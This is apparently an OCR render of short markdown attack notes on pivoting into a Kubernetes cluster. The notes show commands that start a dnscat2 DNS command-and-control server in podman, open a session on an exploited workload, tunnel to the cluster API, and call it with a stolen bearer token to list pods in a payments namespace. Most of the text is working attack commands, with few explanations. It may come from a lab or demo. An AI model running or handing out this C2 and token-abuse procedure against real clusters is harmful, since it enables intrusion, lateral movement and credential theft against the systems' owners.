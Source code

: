 
#Attack visa using port-foward
#Attach visa just using asset-cache as jump-host


## Execute binary filess - dnscat

#once the session is stablished you can create tunnels
Run the server
podman run -p 192.168.150.2:53:53/udp --name dnscat -it --rm -v ./token:/token dnscat2 ruby ./dnscat2.rb --secret=ece3df5051e3eaf5acaf6f7165ca28c6 ralvares.local

#Exploit the workload and open a session

session -i 1
listen 127.0.0.1:8443 kubernetes.default.svc:443

#To get access to the API
podman exec -ti dnscat /bin/bash -c 'curl -k --header "Authorization: Bearer $(cat /token)" https://localhost:8443/api/v1/namespaces/payments-v2/pods'

